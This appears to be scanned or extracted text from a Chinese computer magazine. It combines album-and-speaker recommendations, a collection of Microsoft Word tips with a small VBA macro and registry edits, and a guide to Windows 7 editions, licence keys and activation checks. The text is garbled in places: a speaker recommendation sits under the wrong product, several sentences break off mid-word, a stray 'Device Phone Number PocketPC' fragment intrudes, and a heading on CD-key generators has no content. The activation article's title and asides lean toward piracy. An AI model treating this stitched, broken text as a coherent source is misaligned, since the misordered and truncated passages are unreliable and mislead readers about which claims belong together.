专辑点评：Bandari以超广角音场、逼真的音效采集技术、空灵缥缈的编曲，呈现一尘不染的世纪音乐。在一张张专辑之后，第六张专辑“日光海岸”以更具透明度的音质、配乐浪潮律动的编曲，呈现出抚慰心灵的听觉效果，仿佛置身在温暖阳光下，独自悠闲地漫游海岸，感受难能可贵的恬静时光（花絮：某杂志社下午3:30会准时播放出Bandari的《月光》，用来活动腿脚，缓解疲劳）。

## 谁最适合播放纯音乐 麦博FC260 十周年纪念版

麦博FC260十周年纪念版与老款相比风格有了很大的改变。新款260前面板采用了镜面高光时尚设计，显得更为华丽，更容易与家居环境融为一体。此款音箱整体采用优质密度板木质结构，厚达15mm，有效降低了谐振和音染对音质的影响。在对音质的把控上，麦博的首席技术总监—Peter Larsen全程担当扬声器单元设计并采用了1英寸T9高音+5英寸M5低音的组合。

低音单元是由Peter Larsen研发的M5，口径为5英寸。其中，单元振膜为聚丙烯（PP）材料。同时，振膜截面形状经过精心设计，可以提供更平坦的频率响应。看到这个尺寸和素质我们基本不怀疑它的低音素质，并且纯音乐对低音的要求并不高。而在中音的回放上，FC260表现得中规中矩，能够表现出较多的细节。

高音部分，FC260纪念版采用了1英寸的T9单元，这是Peter Larsen多年来的得意之作。它采用了德国Kurt Muller高音振膜，兼具高解析力与柔美音色。

| 项目 | 值 |
| --- | --- |
| 响频范围 (Hz) | 20~35k |
| 信噪比 (dB) | 85 |
| 扬声器单元 (inch) | 5+1×2 |
| 输出功率 (W) | 40×2 |

推荐理由：虽然纯音乐并不回放人声，但对中音的依赖要更胜于有人声的音乐，搭配以节奏鲜明的高音段吹奏乐器，而组成纯音乐的主要部分。在中高音表现突出的FC260想必更能让你静静地回归大自然……

就这一点来说就可以看出音乐界对蔡琴的重视。而回放设备更是要以全能著称，无论配乐的节奏低音还是吹奏乐器的高音都要完美地展现出来才可以，更不要提那富有磁性的女声了。所以各项表现优秀的R1900TⅢ实为千元左右最优选择之一。

推荐专辑：美丽时光
艺术家：小野丽莎
风格介绍：小野丽莎的曲风自成一格，包含了美、日、巴西的音乐特色，唱腔时而慵懒柔软、时而活泼俏皮，总体来说是带点法国风情或者拉丁风情的爵士、蓝调。

专辑点评：《美丽时光》新专辑，标题曲是汉克威廉斯50年代经典遗作，被小野丽莎唱出南美风味，轻快愉悦，令人耳目一新。此外，威利尼尔森作曲，传奇歌后佩西克莱恩唱红的Crazy及吉姆韦伯写给葛伦坎伯尔的Gentle On My Mind都是美国流行经典名曲中的首选之作，经过小野丽莎重新演绎，温馨又亲切，如同沐浴在夏日黄昏时刻，真是夕阳无限好，只是近黄昏，这或许是听完这张专辑最深刻的感受。

## 谁最适合新派爵士乐 三诺 LA-6900P

和老版一样，新品LA-6900P全木质箱体设计，整体选用暗红色木纹贴皮。同时，其也采用了横卧式箱体设计，以及拉铝工艺倒相孔和调节面板。此外，卫星箱采用了传统的长方体设计，但与老版不同的是卫星箱的网罩改成高档的透明网罩，从而使新品LA-6900P更加时尚。

得益于2.75英寸纸盆中音单元的采用，对于人声这部分的表现大有裨益，小野丽莎那温暖的声音和舒适的节奏在这里得到了很好的诠释。

0.5英寸PV高音单元也让此款三分频音箱在高音部分凸显亮点，虽然说新派爵士乐并不注重高音，但三分频的采用不能说画龙点睛，也算是锦上添花了。

| 项目 | 值 |
| --- | --- |
| 响频范围 (Hz) | 30~150 (低音音箱) 130~20k (卫星箱) |
| 信噪比 (dB) | 75 |
| 扬声器单元 (inch) | 5.25+ (2.75+0.5) ×2 |
| 输出功率 (W) | 15+10×2 |

推荐理由：上面我们说到，新派爵士乐考究的是歌手的人声部分，凭借着三分频和2.75英寸单元的出色发挥，灵感还不是说来就来吗？

推荐专辑：爱像一首歌
艺术家：蔡琴
风格介绍：蔡琴的歌就像一杯岁月的美酒，越是久远，越是香醇。她波澜不惊，低回委婉的歌声，是一种被遗忘了的古老语言，有着一种古典的浪漫，一种优雅的感伤。之所以没有把蔡琴的歌曲进行分类，因为我们知道蔡琴歌曲的风格只有一种，就是她自己的歌。

专辑点评：无论唱片市场多么式微，多少新人来了去，只有蔡琴的艺术长青。对蔡琴的歌迷来说，一边为蔡琴的情路和艺术人生唏嘘，一边也为此而带来的蔡琴不休止的艺术生涯而感到自私的幸福。如果没有过去那些对于蔡琴来说无比坎坷的道路，也没有现在这个可以醉心表演和艺术的蔡琴。

## 谁最适合诠释蔡琴的歌声 漫步者 R1900T III

R1900TⅢ以黑色为主色调，稳重而清冷，并散发着诱人的光泽，而隐藏着的木纹让它更有了一份神秘感。而且做工扎实，约13kg的重量让它倍加沉稳。音箱的两侧都增加了厚厚的夹板，这样尽可能地减少了箱体共振，避免了箱声的产生。

R1900T Ⅲ的低音扬声器为F50NT，它采用对称磁路，长冲程设计，使得低音质量大大改善。低音量感的大小和推动的空气的体积有关，推动的体积越大，低音量感也就越强。在冲程相当的情况下，面积较大的振膜可以推动更大体积的空气。这就解释出为何同为5英寸单元，但R1900TⅢ表现出6寸以上单元的特性。

这款扬声器磁路设计先进，采用进口丝膜，声音柔和细腻。在众多振膜当中，丝膜的听感是最让大众接受的，现有的高档扬声器当中，绝大部分都是采用丝膜，丝膜高音具有最为平衡的性能以及最好的耐听度。

| 项目 | 值 |
| --- | --- |
| 扬声器单元 (inch) | 5+1×2 |
| 输出功率 (W) | 30×2 |


音乐分析
我们随机选择《爱像一首歌》专辑中一首歌，对波形、片段放大和频谱进行分析，用来比较音乐“毒”品和其他不同类型的歌曲。




推荐理由：我们不去讨论已经被众人熟知的蔡琴出色的声音，就录音设备来说，每次蔡琴的新专辑都采用天价级设备而不是一般歌手采用的普通设备。

感到幸福的时候，蔡琴的歌声和你一起分享
幸福是指人感知自己的需要、条件和活动趋向和谐的生活状态。我们常说的，“猫吃鱼，狗吃肉，奥特曼打小怪兽，睡觉睡到自然醒，数钱数到手抽筋。”等等都是一种幸福的状态，因此幸福也可以理解为对欲望的满足。当然，现在许多人对幸福的定义有的时候不是这样，也有不一样的理解。有的时候可以把幸福理解为：当你的心对你所拥有的一切所感到满足时即是幸福。而幸福感往往是需要与别人分享才能体现出的。

# Word引领文字“革命” 5连发重磅出击

作为CFan的编辑，每天的工作都离不开电脑、离不开文字。通俗的说法是，我们是“码字儿的”；换用洋气一点的说法，记录是媒体的责任与宿命。作为平面媒体，就要通过文字与图片来给读者提供信息、表达观点，作为输出文字的必要工具，各种文本编辑工具自然成了电脑用户的必备之物。Word，当前用户使用率最高的编辑工具，几乎每个人都敢说自己会Word，但谁又敢说自己真的把Word用得很好呢？

我们登录了百度知道等问答平台，发现网友关于Word的提问非常多，内容也非常杂，既有很初级的简单操作，也有涉及简化的高级操作。我们特别想帮大家找到一本合适的书籍，但是结果不令人满意，更多的图书从目录看起来就空洞无趣。

本文中的内容，希望也可以按照年代来划分。Word的应用越早期的应用越普通，越经典；越到后面，复杂程度越高，应用度越丰富。

## 50年代 革命从基础测试开始

下面的5个Word经典小技巧，如果你已经掌握了4个以上，说明您的水平已经很高，本文您只需挑选您不知道的内容查看即可。

- **粘贴网页内容**
在Word中粘贴网页，只须在网页中复制内容，切换到Word中，单击“粘贴”按钮，网页中所有内容就会原样复制到Word中，这时在复制内容的右下角会出现一个“粘贴选项”按钮，单击按钮右侧的黑三角符号，弹出一个菜单，选择“仅保留文本”即可。

- **快速转换大写金额**
在Word中输入12345，然后点击“插入→数字”命令，在弹出的“数字”对话框“数字类型”栏里选择中文数字版式“壹、贰、叁……”，单击“确定”，则12345就变成中文数字“壹万贰仟叁佰肆拾伍”。

- **去掉自动编号功能**
点击“工具→自动更正选项”，打开“自动更正”对话框，进入“键入时自动套用格式”选项卡，找到“键入时自动应用”组中的“自动编号列表”复选项，取消前面的钩即可。这样就可以去掉那些“烦心”的自动编号功能。同样也可去除“画布”，方法是：点击“工具→选项”，进入“常规”选项卡，去除“插入‘自选图形’时自动创建绘图画布”复选框上的钩即可。

- **画出不打折的直线**
在Word中如果想画水平、垂直或15度、30度、45度、75度角的直线，只须在固定一个端点后，按住Shift键，上下拖动鼠标，将会出现上述几种直线选择，位置调整合适后松开Shift键即可。

- **部分加粗表格线**
在Word中需要加粗某一条或几条表格线时，可以先在工具栏选项中点击“表格和边框”按钮，然后在“表格和边框”窗口选定“线型”与“线宽”，再点击“绘制表格”按钮，最后在欲加粗的表格线上从头到尾画上一笔即可。

- **魔术：找回失落的“诅咒”**
打开一个新的Word文档，键入“公司评估报告”后存盘；然后键入“老板是个傻瓜蛋”，再存盘；之后删掉那句无礼的话，存盘，退出；再打开记事本，拖入那个Word文件，在那堆杂乱无章的代码里你就能看到刚才已经“删掉”的内容，知道了吧，以后不要随便在Word里面说老板坏话了吧，若要人不知，除非己莫为！



## 60~70年代 疑惑的年代

60年代到70年代，是一个迷惑的年代。政治流行语出现大爆炸的现象，其他流行用语的生存空间则被挤占到最小。“打倒”、“横扫”、“炮轰”、“火烧”、“打翻在地，踩上一脚”……在Word领域中，我们同样会有这样和那样的疑惑……

- **实战：超音速提取DOCX中的图片**
Word文档中的图片如何提取？你可能知道把它“另存为网页”的方法，但那样步骤较多，而且图片会有多种格式，很不容易收集。Word 2007 文档 (.docx) 实质上是个压缩文档，把后缀名改成 .zip 可以直接打开。注意，这招不能用在老版本的 Word 文档 (.doc 文档) 上。

第一步：假设这个文档就是你花花绿绿的文档 (见图1)。
第二步：关闭文件，将文件的后缀名改成zip。（只需在.docx后面加上.zip就可以，它就变成了.docx.zip结尾的文件。）
第三步：现在它变成了压缩包，双击打开它，在里面找到 word/media 目录，图片全在里面吧？（见图2）

- ★ 没有被压缩软件压缩过的docx文件是可以直接在WinRAR或WinZIP中直接打开的，如果不更改docx文件的后缀名，那么你可以打开解压缩软件，定位到该docx所在的目录，然后把media文件夹中的图片解压出来即可。
- ★ 但是被压缩过的docx文件，在解压缩软件中双击则会调用Word 2007来打开。
- ★ 此方法同样适用于.xlsx、.pptx等Office 2007软件的文件格式。

- **实战：在早期版本的Word中编辑docx文件**
doc是Word 2003和以前版本的通用后缀名，而docx是Word 2007新使用的后缀名，而新版本是可以向前兼容的，但之前的旧版本却不能兼容docx。如果你没有或者不想安装Word 2007，如何在旧版的Word软件中编辑docx文件呢？

第一步：到 http://www.onlinedown.net/soft/40136.htm 下载微软Office兼容性补丁包。
第二步：安装完兼容包后，“文档类型”中会多出Word 2007文档(*.docx)和启用了宏的Word 2007文档(*.docm)两个新文档类型(见图3)，这样Office 2000/XP/2003的用户就可以打开、编辑、保存Word、Excel和PowerPoint 2007中使用的新格式的文档。

**小提示：**
此兼容性补丁包也能结合Office Word Viewer 2003、Excel Viewer 2003和PowerPoint Viewer 2003使用来浏览用新格式保存的文件。



- **实战：将Word 2007的默认格式设置为doc**
由于Word 2007默认的文件格式是docx，想让其他使用老版本的用户可以顺利查看你的文档，每次编辑完文件之后都需要选择“另存为→Word 97-2003文档”，把格式保存为doc，比较麻烦。还有，我们通过鼠标右键菜单新建的Word文件，默认格式也是docx，有没有办法把默认格式改为doc呢？

第一步：将Word 2007保存的默认文件格式改为doc。首先在Word 2007点击左上角的Office图标并点选“Word选项”，然后在打开的选项窗口中切换到“保存”选项卡，将文件保存格式设置“Word 97-2003文档”(见图4)。点击“确定”后保存设置。
第二步：将给鼠标右键的“新建”菜单添加“Microsoft Office Word 97-2003文档”项。在记事本中输入以下内容，另存为.reg文件，然后双击该.reg文件将内容合并到注册表中，刷新注册表内容后，就可以通过鼠标右键直接新建doc文件了。

    Windows Registry Editor Version 5.00
    [HKEY_CLASSES_ROOT\.doc]
    @="Word.Document.8"
    [HKEY_CLASSES_ROOT\.doc\Word.Document.8\ShellNew]
    "NullFile"=""

第三步：删除鼠标右键菜单中的“Microsoft Office Word”项目。在记事本中输入以下内容并另存为.reg文件，然后双击该.reg文件将内容合并到注册表中，刷新注册表内容后，鼠标右键就只剩下doc新建功能了。

    Windows Registry Editor Version 5.00
    [HKEY_CLASSES_ROOT\.docx\Word.Document.12\ShellNew]
    "NullFile"=""

**小提示：**
在默认情况下，安装Office 2007时，安装程序就会自动将老版本的Office程序卸载。但是如果你选择“自定义”安装方式，并让安装程序扫描已安装的Office程序，然后选择“保留所有早期版本”的安装方式，这样你也可以在鼠标右键菜单中同时看到Office 2003和Office 2007新建项目。



- **实战：让你的Microsoft Office也玩多标签**
相信大家对于浏览器的多标签功能都是非常熟悉了，而且国产办公软件WPS早就用上了标签功能，但是微软Office软件始终不提供这个功能。不过，没关系第三方的插件可以帮你解决这个问题。

第一步：在浏览器中输入http://files.cnblogs.com/wangminbai/OfficeTab_v1.22.zip，将OfficeTab下载到本地。这是一款应用于Microsoft Office的第三方插件，它包含ExcelTab、WordTab和PowerPointTab三个组件，分别对应支持Excel、Word和PowerPoint的多标签模式运行，方便用户在不同的文档之间切换。



## 80~90年代 新世纪的“高分问答”

Word一打开就报错，“一进入就报错，重装也无效”，这样的问题充斥着百度知道。解决方法：这可能是由于不正常退出造成的。是由于C:\Documents and Settings\你的用户名\Application Data\Microsoft\Templates\NORMAL.DOT文件损坏了。把它删除，再次进入Word就能解决问题，如果不行，从其他正常电脑中把此文件复制过来即可。

**Q：** 每每复制一些网页内的文字到word里时，都会把文字的格式也复制过来，很影响粘贴的速度。
**A：** 在“开始”功能区的“剪贴板”分组中单击“粘贴”按钮下面的下拉三角按钮，并单击下拉菜单中的“选择性粘贴”命令。在打开的“选择性粘贴”对话框中选中“粘贴”单选框，然后在“形式”列表中选择“无格式文本”即可(见图5)。



**Q：** 文章通篇为宋体，要将括号(有很多)里的内容变成楷体，如何通过“查找/替换”来实现？
**A：** 分两种情况。
(1) 括号是全角的，这个简单些。查找“*[”此时在主文档中查找，然后在查找处输入“[*(]*”此时应该在所选文档中查找，这时要求的内容已经被选择了。关闭查找替换，直接改字体。
(2) 括号如果是半角状态的，可以先用查找替换把半角替换成全角再进行，或者在主文档中查找“\(*\)”，然后在所选文档中查找“\(*\)”。

**Q：** 在一个Word文档中，可不可以在每个字的后面添加一个“，”？
**A：** 全选所有文字，打开查找与替换窗口，在查找中输入“^?”在替换中输入“^&”，然后选择“全部替换”，最后按“是”即可。

**Q1：** 如何设置序号，一回车就能自动生成序号？
**A1：** 默认情况下，只要输入“1.”、“一.”等序号之后一回车，就会生成下一个序号。如果想自由定义的话，可以在“格式与样式”中调整样式，如“标题1”、“标题2”调成自己要的格式，然后定好热键。比如ctrl+alt+1是标题1，ctrl+alt+2是标题2，然后需要标题的时候按热键即可。毕竟软件不知道你下一行到底想写什么，是标题还是正文。有时软件自作聪明会把人搞疯。热键比较好，又快，又能自己控制。
**Q2：** 自动编号虽好，但有时不需要自动生成很麻烦，怎么解决这个问题？
**A2：** 大家都知道，Ctrl+Z的作用是撤销上一个操作，但能使我们在编写文档过程中可以及时取消所进行的误操作，或是恢复到以前的某一步。但你知道吗？Ctrl+Z还有特殊的作用。在没有改变Word缺省设置的情况下，在空行中输入“1.计算机的实际应用”，系统会自动将其变为项目编号的形式，并在下一行添加了“2.”字样。这时如果按BackSpace键，可以删除第二行中的项目编号，并不能消除第一行中的项目编号形式。也就是说第一行中的“1.”已经变成项目编号了，不可选中。这时，Ctrl+Z就发挥作用了。我们在输入“1.计算机的实际应用”敲回车后，顺手按一下Ctrl+Z，一切都OK了，第一行还是原来的样子，一点也没变。原来系统有“自动更正”的功能，可以按照一些约定将键入的内容自动更正。比如我们输入“1.计算机的实际应用”并敲回车后，系统做了两件事：先是换到下一行，然后将这两行变为自动编号的形式。我们按了一下Ctrl+Z，刚好取消了第二个操作，就像什么事都没发生一样。（见图6）



**(1) 打印附加信息**
如果你希望在将要打印出来的文档里包含该文档的属性、批注等信息，那就点击Word的“文件”菜单，调出“打印”对话框再点击“选项”，在“打印文档的附加信息”栏里选择你要的附加信息，如该文档的属性、域代码等。设置完成后点击确定，就可以开始打印了。如果你不希望打印这些不必要的附加信息，不选中该选项即可。

**(2) 在一张纸上打印多页的文档**
原来不用辅助软件就能实现！具体操作：单击“文件→打印”，在“显示比例”下“每页的版数”框中，单击所需选项。例如，要在一张纸上打印一篇四页的文档，可单击“4版”选项(见图7)。



**(1) 多图DOC加速显示秘籍**
**Q：** 就是Word文档里面包含的图片，滚动文档之后图片就显示不出来了，而且上下拖动文档时图片显示得很卡。看流程图一类的文档则是一点点地显示出来，已排除机器配置低的原因。
**A：** 首先应该排除操作系统问题，有用户在升级到XP SP3之后解决了这个问题。此外，有个小技巧：首先注意使用Word2007(2007的图片显示速度有提高)。另外，打开文档后，选择“打印预览”，再关闭，就可以迅速打开Word中所有的图片。

**(2) 让图片更节省空间**
**实例：自带压缩**
尽管用户可以在Word2007文档中压缩所有图片或选中图片的尺寸，以减小Word文件的大小，但每次都执行压缩操作未免太繁琐。用户可以设置图片压缩选项，实现在保存Word文档时自动压缩图片尺寸的目的。

步骤1：打开Word2007文档窗口，选中任意图片。在打开的“图片工具”功能区的“格式”选项卡中，单击“调整”分组中的“压缩图片”按钮(见图8)。
步骤2：在打开的“压缩图片”对话框中，单击“选项”按钮。
步骤3：打开“压缩设置”对话框，选中“保存时自动执行基本压缩”复选框，并单击“确定”按钮即可。


**(3) 超实用！不用软件批量缩小Word中图片**
假设我们希望将一个Word中文件的所有图片都缩小为原来大小的50%，必须要是软件调整图片，再重新制作这个文件吗？不用这么麻烦，请按照下面步骤操作。

第一步：打开该文档，然后选择“开发工具”选项卡，选择“Visual Basic→插入→模块”。
**小提示：** 如果没有该选项卡，可以从“开始→Word选项→常用”，勾选“在功能区选择开发工具选项卡”即可。
第二步：在窗口中输入如下内容：

    Sub halfPic()
        Dim myInShape As InlineShape
        For Each myInShape In ActiveDocument.InlineShapes
            myInShape.Width = myInShape.Width / 2
            myInShape.Height = myInShape.Height / 2
        Next
    End Sub

第三步：选择“运行→运行子过程/用户窗体”，回到Word窗口，图片是不是已经都缩小了(见图9)?




**(3) 大幅打印，分开打印**
把一张大幅海报打印成几张纸，然后拼接成一张大的方法？如果借助工具软件Fineprint(下载地址：http://www.fineprint.com.cn/)可以实现，如果不想装的话，可以查看一下你的打印机驱动，不少A4打印机的选项中有一个“海报打印”(或者称为“平铺”)的功能，最大可以按4×4打印，也就是用16张A4纸拼起来。打印的时候会留好裁边，并注明哪些边是要裁掉的，哪些边是涂胶水的，很方便。

2010以及未来
微软Office2010的Beta版已经泄漏，而Word组

# 激活有门道 免费是王道 Windows 7激活从入门到精通

Windows 7来了！2009年10月23日，微软正式发布了新一代Win7操作系统。不过，道高一尺，魔高一丈！Win7正式版尚未正式发布，被破解的信息早就不绝于耳了。从Win98到Vista，各式各样系统的破解方法层出不穷，而微软对于各种破解技术一直都很无可奈何。到底是微软的反激活措施太落后，还是破解技术太高明呢？面对破解，Win7到底使用了什么神奇的激活机制呢？Win7到底是如何激活的？又是如何被破解的？

## 了解 Win7 的版本、授权和密钥

**Win7系统到底有多少个版本？**
正式版的Win7一共包含6个不同版本，根据功能和价格的不同分别为初级版（Starter）、家庭普通版（Home Basic）、家庭高级版（Home Premium）、专业版（Professional）、企业版（Enterprise）以及旗舰版（Ultimate）。其中，家庭普通版、家庭高级版、专业版以及旗舰版都已经于10月23日正式上市，另外两个版本不会参与市售，初级版只能通过OEM的方式获得，而企业版则可通过OEM或批量授权来获得（见图1）。

**Win7各版本的区别**

| Win7版本 | 初级版 | 家庭普通版 | 家庭高级版 | 专业版 | 旗舰版 | 企业版 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 定位 | 低端市场 | 新兴市场 | 零售及 OEM | OEM 或批量 | - | - |
| 64位支持 | - | - | ● | ● | ● | ● |
| 家庭组 | 只可加入 | 只可加入 | ● | ● | ● | ● |
| IE8 | ● | ● | ● | ● | ● | ● |
| WMP 12 | - | ● | ● | ● | ● | ● |
| 移动中心 | - | - | ● | ● | ● | ● |
| Aero 特效 | - | 部分 | ● | ● | ● | ● |
| 多点触控 | - | - | ● | ● | ● | ● |
| 媒体中心 | - | - | ● | ● | ● | ● |
| 自动备份 | - | - | - | ● | ● | ● |
| 域服务 | - | - | - | ● | ● | ● |
| XP Mode | - | - | - | ● | ● | ● |
| AppLocker | - | - | - | - | ● | ● |
| BitLocker | - | - | - | - | ● | ● |
| 多语言切换 | - | - | - | - | ● | ● |
| VDH 启动 | - | - | - | - | ● | ● |
| 零售价 | - | 399元 | 699元 | 1399元 | 2460元 | - |



## 为什么Win7要进行激活？

在任何版本的Win7系统安装过程中没有输入正版授权的密钥，那么用户进入系统后将会自动获得30天的试用期授权。在这个期限内，系统会不断提醒你激活，越到后来频次越高，最后一天每小时提醒一次（见图2）。如果试用期结束而Windows没有被激活，系统会使用一套新的提醒方式，包括采用黑色桌面背景显示提醒信息，甚至当用户执行某些操作时出现提醒等，但这并不会影响Windows本身的实际功能。激活以后，如果通过正版验证，可以到网站下载更新，获取其他附加软件和有关文档。实际上，从Vista开始，微软启动了一系列技术以防止软件盗版，该技术统称为软件保护平台（Software Protection Platform，简称SPP）。该技术包括防伪检测、防篡改、反盗版等激活验证技术，系统激活是其中必须的核心步骤。

目前，已经上市的Win7整机（包括笔记本电脑和台式机）预装的大多是家庭版，企业和政府机关用户则是专业版和企业版，而最高级的旗舰版由于价格的因素，其主要用户群是数量更加庞大的盗版用户。另外，Win7家庭高级版和专业版用户可以付费升级到旗舰版。

## Win7系统有多少种发授方式？

如果你要购买Win7系统，有哪些渠道来获得正版的系统？也就是说，微软卖Windows的方法有多少种？简单地归纳，获得正版系统有以下几个途径：

- **RTL：** RTL即Retail，俗称零售版、彩包版，独立包装。包装最华丽，价格最高，可以在实体店、网络店等地方购得。RTL版Windows有唯一对应的密钥，而且不绑定任何主机硬件，可以在不同电脑上安装无数次（也没有主板、CPU更换限制），但每一次只允许其中一台机器通过认证。
- **OEM：** 针对的是品牌机和笔记本用户，仅跟随品牌台式机和笔记本用户捆绑销售，不允许单独销售。这通常是最便宜的授权方式，授权系统一般被内置在硬盘的隐藏分区里面，只有少数厂商会另外提供单独授权系统的安装光盘。OEM版系统在使用上是有限制的，只能在某品牌的指定电脑或同品牌系列电脑上使用。
- **VOL：** 面向政府、企业、教育机构等大客户进行的批量授权，主要适用于Windows的较高级版本（一般不包括家庭版），客户自行安装。在XP时代，给大客户的VOL授权的使用次数是无限的，由于某些VOL密钥的泄漏使得XP系统盗版盛行（即XP上海政府版），因此微软在Vista以后对VOL授权进行了改进，授权是有次数限制的。
- **MSDN：** 仅面向微软MSDN专业订阅用户。由于订阅每年都是要付费的（相当于预售），因此他们可以得到Win7。如果你是MSDN订阅用户，那么你就可以通过你的MSDN账号下载（下载地址为 https://msdn.microsoft.com/zh-cn/subscriptions/securedownloads）或向微软申请光盘邮递。MSDN版与RTL版一样；每个MSDN账号会得到一个密钥，然后自己安装。
- **VOL密钥授权的种类**
根据激活方式的不同，VOL批量授权密钥还可以分为以下三种类型：
① VOL:MAK： 多次重复激活（Multiple Activation Key，简称MAK）方式批量授权采用的密钥；
② VOL:GVLK（Generic Volume License Key）用于KMS客户端的通用密钥；
③ VOL:CSVLK（Custom Service Volume License Key）用于密钥管理服务（Key Management Service， KMS）主机的授权密钥。
关于批量激活及其部署更多内容请参考官方说明 http://technet.microsoft.com/en-us/library/dd878528.aspx 。

### 小知识：OEM密钥授权的种类

用户在购买电脑的时候随机获得，实际上OEM密钥还可细分为以下三类：
① OEM:SLP，微软颁发给大的OEM厂商（如联想、华硕、戴尔、惠普等）使用，用于OEM厂商进行批量预安装时使用，用户无法直接获得，但是可以通过破解得到；值得一提的是，这是唯一可以不必联系微软就可以进行离线激活的，许多盗版系统就是这种授权来激活的；
② OEM:NONSLP：由微软发给一些小的OEM厂商，与零售版的密钥类似，需要电话激活或者在线激活；
③ OEM:COA：也就是OEM电脑随机附带光盘的密钥，与RTL零售密钥一样；在不使用一键恢复情况下，用户进行系统安装时使用，需要电



Device
Phone Number
PocketPC
9322## 使用、查看和验证你的密钥

## 实战：你知道密钥该如何使用吗？

当你得到了一个正版密钥，你知道这个密钥代表了什么，以及它可以如何使用吗？

第一，密钥只与Windows的版本有关，比如是旗舰版或者专业版，即使OEM类型密钥也与OEM厂商没有关系。这也意味着与系统架构也没有关系，同一个密钥32位或者64位系统都可使用。
第二，密钥是要保密的，在系统中是无法直接查看，Windows将提供Product ID和Activation ID等信息作为产品标识，但可以用工具来查看系统中的密钥。
第三，尽管获取密钥的渠道可为零售版、OEM版、MSDN版等，但本质上都是一样的，Windows只会根据系统安装的密钥类型决定采用哪种激活方式。也就是说，RTL零售版的安装Windows也可以用OEM密钥来激活，MSDN版也可以用RTL零售版光盘上附带的密钥来激活，等等。
第四，重装系统以后，使用同一个密钥可以重新激活，但由于VOL:MAK密钥不会记录硬件信息，所以重新激活也会增加密钥的已激活次数。
第五，对于更换硬件，Windows会把系统中的硬件设置权重，启动时会检查硬件，如果发现更换的硬件权重之和超过一定的阈值，则需要重新激活。一般情况下，更换硬盘或者主板就可能会造成重新激活。实际上，OEM激活方式可以随便更换硬件，只要更换后BIOS中有所需的验证信息即可。

## 实战：检查密钥对应哪种激活方式和版本

对于网络上直接购买密钥，用户并不能完全相信商家的描述。比如在淘宝网上购得一个密钥，当付款以后商家将25个字符组成密钥发给你后，你该如何验证这个密钥的授权方式呢？

第一步：到http://work.newhua.com/cfan/200923/Win7KeyChecker.rar将“Windows 7 Product Key Checker”下载到本地，这是一款用于查看Win7密钥的工具软件。
第二步：运行“Windows 7 Product Key Checker”，然后在“Product Key”中输入该密钥，点击“Check”，稍等片刻就可以得到该密钥的全部信息了（见图3）。其中，“Product Name”对应的是Win7的版本（家庭版、专业版还是旗舰版），“License Type”对应的是授权方式。



## 实战：查看Win7 VOL密钥剩余授权次数

为了防止密钥泄漏而引发盗版，微软在Win7系统中引入了“MAK”机制——即可用一个Key激活多台电脑的Win7，但并不像XP的无限次VOL授权，MAK模式的Win7 VOL密钥是有激活次数限制的。如果你购买了一个VOL密钥，那么你在付款之前应该检查一下它还有多少次激活机会。

第一步：到http://work.newhua.com/cfan/200923/VAMT.rar下载一个名为“Volume Activation Management Tool”（简称VAMT）的软件，并将软件解压到本地。
第二步：运行VAMT.exe，在菜单中依次选定“Option→Manage MAKs”弹出的“Manage MAK Keys”窗口，单击“Add”按钮即可弹出MAK ProductKey的输入对话框，输入你的MAK密钥后点击旁边的“Validate”按钮。
第三步：经过一分钟左右的验证之后，在“MAK Edition Type”里会显示MAK密钥可激活的系统，然后在“Description”里再次输入MAK密钥，点击“Add”后将密钥加入到检测列表。
第四步：这时MAK密钥对应“Remaining Activations”（即剩余激活次数）显示的是“Not Available”（即不可用），点击“Refresh Remaining Count”按钮后连接验证服务器，进行验证后在“Remaining Activations”下面显示的数字就是该密钥当前还剩余的激活次数了（见图4）。

## 实战：全方位验证你的Win7是不是正版的

微软的绝大多数软件产品（比如Windows操作系统和Office办公软件）都需要产品密钥，也就是我们通常所说的CDKEY。如果不激活的话，系统和软件将只能作为评估副本来使用，并拥有试用期，到期后继续使用将会是违法行为。那么，如何查看和验证Win7系统的CDKEY是不是合法的呢？

第一步：本地验证。方法有很多，而且都非常简单。用Win+Break热键打开查看Win7系统属性，看一下Windows激活项是不是为“已激活”，或者用Win+R打开“运行”并输入以下命令：

```
slmgr.vbs -dli
slmgr.vbs -xpr
Winver
```

第二步：在线验证。在浏览器中输入http://www.microsoft.com/genuine，打开微软验证中心，单击页面左侧的“验证Windows”按钮（你也可以验证你的Office），如果你的密钥是正版授权的，那么将得到一个“Windows是正版软件”的结果。
第三步：软件验证。为了方便用户检测自己的系统是否为正版，微软发布了一款正版增值诊断工具—MGADiag（下载地址为http://go.microsoft.com/fwlink/?linkid=56062）。MGADiag的使用很简单，下载后即可直接运行，在软件界面中点击“Continue”后稍候片刻，如果Validation Status项的值为绿色的“Genuine”，则表明系统为正版（见图5）。



## 实战：Win7密钥丢了咋办？请开锁匠！

经过上面的叙述，相信大家一定能够明白密钥是正版系统唯一的凭证，尽管在使用系统的过程中，我们并不需要时时刻刻盯着这25个字符串，但是如果重装系统的时候你发现找不到密钥那就比较不爽了。这种情况通常发生在正版光盘用户丢失光盘包装盒，或者内置系统用户忘记了密钥。不过没关系；如果你的原系统还在，那么以下两个工具可以帮你找回密钥：

工具一：Everest（下载地址为http://www.onlinedown.net/soft/16705.htm）。Everest是一个装机必备的硬件检测工具，实际上除了检测硬件外，Everest还可以扫描许多系统信息，而你需要的密钥信息就保存在“操作系统→操作系统”项目的“授权信息”中。
工具二：produkey（下载地址为http://www.nirsoft.net/utils/produkey.zip, http://www.nirsoft.net/utils/produkey-x64.zip）。这是一款可以帮你查询出你计算机上所安装Microsoft的产品密钥，比如Windows、MS-Office、Exchange Server、SQL Server以及IE等。它使用非常简单，下载后直接运行就可以了（见图6）。


## 实战：清除Win7密钥，防止木马病毒恶意收集

任何的正版Windows系统都有一个对应的密钥，如果一个Win7试用版用户得到了这样一个密钥，那么在理论上他就是正版用户（微软验证系统就将其视为合法用户）。由于这样的密钥信息时保存在系统中，因此木马、病毒以及恶意程序就会盯上正版用户系统中的密钥信息。如果你购买了正版系统，那么你可以将Win7的产品密钥信息从系统里面清除掉，从而避免合法权益被侵害。

方法如下：
以管理员权限打开CMD命令运行窗口，然后键入 "slmgr.vbs /cpky" 命令，系统将弹出 "来自注册表的产品密钥成功地清除" 的信息（见图7）。需要注意的是，该命令必须是管理员身份运行，否则会出现拒绝访问的提示错误。另外，该命令不会影响当前系统的正版授权。



## 相关知识

## CDKEY生成器是如何工作的？

